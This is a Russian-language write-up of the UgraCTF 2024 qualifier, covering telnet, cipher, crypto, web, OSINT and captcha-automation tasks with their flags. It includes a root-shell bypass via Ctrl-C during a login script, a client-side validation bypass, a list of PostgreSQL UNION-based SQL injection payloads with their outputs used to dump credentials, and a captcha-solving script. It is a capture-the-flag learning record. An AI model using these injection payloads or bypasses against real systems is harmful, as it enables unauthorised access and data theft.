



# UgraCTF 2024 Quals: Неофициальный зачет

---

## Решенные таски

---

### Golden Gate: CTB

Подключение к ВМ производится по telnet:

```sh
telnet goldengate.q.2024.ugractf.ru 9277 -l 1q8yrnjncvto7ky8
Login: ugra
Password: ucucuga
```

При подключении сразу активируется скрипт `auth.sh`:


При этом мы выясняем, что этот скрипт создан относительно `root`, т.е. при запуске он имеет root-права


При анализе исходного кода скрипта можно заметить интересный момент:

```sh
trap 'echo 'Bye!'; exit" SIGINT
```

`SIGINT` - обработчик сигнала, посылаемый нажатием клавиш Ctrl-C, но только после того, как выведется строка `Welcome to GOLDEN GATE`. Попробуем успеть нажать `Ctrl-C` и получаем шелл `root`, после чего, читаем флаг:


Flag: `ugra_thats_how_you_bypassed_autoexec_bat_in_early_days_qxe7oew59cme`

---

### Google Dyslexia: Misc

Исходный текст: `gipa{c{aemcy{ydco{co{jgpo.e{.642tdq6dmli`

В описание таска говорилось про то, что кто-то испортил клавиатуру. Был найден соответствующий шифр на dcode.fr:


Результат: `UGRA-I-ADMIT-THIS-IS-CURSED-E^$@KHX^HMPG`

Обращаем внимание на последний блок: `E^$@KHX^HMPG` и заменяем символы `^$@` на соотвествтующие цифры и получаем флаг

Flag: `ugra_i_admit_this_is_cursed_e642khx6hmpg`

---

### Входящее письмо: Misc

У нас в распоряжении имеется письмо с непонятными символами, используется нестандартная кодировка символов:


Через ресурс 2cyr.com переводим в другую кодировку в автоматическом режиме и получаем флаг:


Flag: `ugra_stop_sending_spam_please_954050169662`

---

### Посланник: Crypto

Нам дана следующая картинка с текстом:


При этом с описании таска уделено внимание эмблеме. Ищем, что это за эмблема и понимаем следующее:

```
Орден звезды EZIC, или просто EZIC - является загадочной организацией в Papers, Please (игра).
```

Если немного углубиться, то можно понять, что привычный текст должен появится после двух наложений сетки (она всегда одинакова)


Делаем это дважды - на эмблему с одной и второй стороны фигуры сверху сетки и получаем две части флага. Пример:


Части флага: `ugra*snowier*pa` и `stures*vxdk8pww`

Flag: `ugra_snowier_pastures_vxdk8pww`

---

### Калитка: Web

Заходим на сайт и попадаем на страницу логина:


Данных мы не знаем, поэтому изучаем исходный код:


Читательские билеты можно вытащить на ручке `list_users`, которая возвращает JSON-объект:


Для пароля перепишем код и применим его относительно читательского билета:


Так мы узнали данные для входа - `8610003900:003АЙА27`


Дальше - больше! Находим в списках книг необычный раздел



От нас требуют непонятные совершенно данные, поэтому вновь исследуем исходный код и натыкаемся на условия с регулярками:


Байпасим их при помощи переписывания функции, которая будет возвращать `true`:


Вписываем любые значения:


И мы успешно смогли выписать книгу:


Flag: `ugra_wicket_gate_is_not_wicked_4erwvin323p0`

---

### Языковой барьер: Web

Перед нами сайт, на котором имеется функционал смены языка и форма для входа, от которой мы не знаем данных


При смене языка, его код отображается в соответствующем хэдере:


Данный функционал уязвим к SQLi. Ниже список команд для удачной эксплуатации:

```
updateLanguage("0' UNION SELECT '',version() --") - PostgreSQL 16.1 (Debian 16.1-1.pgdg120+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit
updateLanguage("0' UNION SELECT '',current_database()--") - MyPastaDB
updateLanguage("0' UNION SELECT '0',table_name FROM information_schema.tables WHERE table_schema='public'-- -") - Users
updateLanguage("0' UNION SELECT '0',column_name FROM information_schema.columns WHERE table_name='Users'-- -") - Id
updateLanguage("0' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_name='Users'-- -") - Password
updateLanguage("0' UNION SELECT '2',column_name FROM information_schema.columns WHERE table_name='Users'-- -") - Username
updateLanguage("0' UNION SELECT '1',table_name FROM information_schema.tables WHERE table_schema='public'-- -") - Localizations
updateLanguage("0' UNION SELECT '0',column_name FROM information_schema.columns WHERE table_name='Localizations'-- -") - Content
updateLanguage("0' UNION SELECT '1',column_name FROM information_schema.columns WHERE table_name='Localizations'-- -") - LocaleCode
updateLanguage("0' UNION SELECT '0',user-- -") - pastapp_svc
updateLanguage("0' UNION SELECT '0',usename FROM pg_user-- -") - admin
updateLanguage("0' UNION SELECT '0',passwd FROM pg_user-- -") - ********
updateLanguage("0' UNION SELECT '0',usename FROM pg_user WHERE usesuper IS TRUE-- -") - admin
updateLanguage("0' UNION SELECT '0',datname FROM pg_database-- -") - template0
updateLanguage("0' UNION SELECT '1',datname FROM pg_database-- -") - mypastadb
updateLanguage("0' UNION SELECT '',database_to_xml(true,true,'')::text -- -") - pastalover:ZThmZWU3ZTctOTk5OS00NTRlLTk3NWQt
```

Вытаскиваем данные для входа через `database_to_xml()`


Входим и поулчаем флаг


Flag: `ugra_localization_with_no_sanitazation_9777b057d327`

---

### Несложная: PPC

Имеем кнопку и капчу из математического выражения:


Сама капча часто выбрасывает выражения, которые содержат в себе умножение на 0 всего выражения, а также не сбрасывает счетчик нажатий впринципе. Это позволяет написать скрипт, который все время будет отдавать в качестве ответа 0.000


2 минуты, скрипт отрабатывает и мы получаем флаг:


Flag: `ugra_sorry_for_clickbait_xaoza8erdgb0`

---

### IF: Recon

Имеем сайт, на котором крайне много вариантов на выбор для расшифровки аббревиатуры 'IF':


На одном из форумов находим ответ на вопрос - https://www.gutefrage.net/ - was bedeutet IF mit dem Aufzug? (вопрос). Выбираем из списка нужные слова и получаем картинку с флагом


Flag: `ugra_keep_your_schluesselbund_from_falling_into_the_aufzugskabinenetagebodenspalt_qous0uo8wyfz`

---

## Нерешенные таски

---

### Все это как-то подозрительно: Recon

Как же нам не повезло из-за невнимательности в последнем вопросе таска...

Перед нами картинка, на которой очень много предметов:


Суть таска состоит в том, чтобы последовательно ответить на вопросы (которые находятся на сайте)

1. Логин и пароль - ml581829106:qV*!2@x>Tp{
2. Номер телефона - +79688362090
3. Код подтверждения - 000000
4. Последние 4 цифры номера карты - 7524
5. Последние 4 цифры номера паспорта - 0692
6. Работодатель - TeleTrade
7. Страна последней заграничной поездки - India
8. Полный номер карты - 5321304698557524

#### 1. Логин и пароль

Логин и пароль находятся на самом видно месте:



#### 2. Номер телефона

Номер телефона можно найти на пластиковой карте от сим-карты:


#### 3. Код подтверждения

В таске было указано, что если код подтверждения не приходит, то ввести 6 нулей

#### 4. Последние 4 цифры номера карты

Если немного поиграться с цветами, то можно найти черные 4 цифры на черном фоне:


#### 5. Последние 4 цифры номера паспорта

И вот что интересно - паспорт закрыт, но есть, видимо, заграничный паспорт, 4 цифры которого мы можем увидеть на изображении:

 

#### 6. Работодатель 

Работодателя можно найти при помощи белой ручки:

 

#### 7. Страна последней заграничной поездки

На картинке можно обнаружить множество намеков на Америку, но это все пыль! Истинная страна - Индия. Как мы это узнали? Обратим внимание на купюры, особенно на самую дальную, которая не похожа на долларовую:


Если немного поискать в интернете, то можно понять, что эта купюра из Индии (100 рупий):


#### 8. Полный номер карты

Мы знаем на данный момент следующую последовательность - `**** ***6 9855 7524`

Обратим внимание на дизайн карты и найдем ее основные цифры + проверим:




Карта у нас как раз-таки категории `world`, значит, мы скорее всего на правильном пути. Теперь мы знаем - `5321 30*6 9855 7524`. Остается одна цифра - вариантов от 0 до 9, поэтому берем любой сайт/инструмент, где можно проверить карту на валидность по алгоритму Луна и подбираем цифру:


А вот тут мы и ошиблись очень жестко, сами смотрите разницу:


Пробелы БЛ*ТЬ!!! У самурая нет цели, только путь...

Так и не введенный... Flag: `ugra_sometimes_you_just_narrowly_escape_and_win_atkw6etn9kj1`

---

### Сложный: PPC

Вот тут суть такая же как и в `Несложный`, только счетчик сбрасывается. Оставлю эталонное решение здесь от самих авторов:

```python
import base64
from io import BytesIO
from PIL import Image
from pix2tex.cli import LatexOCR
import requests


TOKEN = "f4wqroe67xf3mq01"

model = LatexOCR()

def send(**kwargs):
    global state
    state = requests.post(f"https://peterparker2.q.2024.ugractf.ru/{TOKEN}/click", json=kwargs).json()

send()

while state["flag"] is None:
    print(state["counter"])
    if not state["need_captcha"]:
        send()
        continue

    im = Image.open(BytesIO(base64.b64decode(state["picture"].partition(",")[2])))
    s = model(im)
    print(s)
    s = (
        s
            .partition("=")[0]
            .replace("}{", ")/(")
            .replace("{", "(")
            .replace("}", ")")
            .replace("\\cdot", "*")
            .replace("\\left", "")
            .replace("\\right", "")
            .replace("\\frac", "")
            .replace("\\bigg", "")
    )
    try:
        value = eval(s)
    except Exception:
        print("oopsie")
        send()
        continue
    send(captcha_response=value)
```

Неосиленный `Flag: ugra_peterparker2_final_release_LASTVERSION_u66fei8xzbde`

---
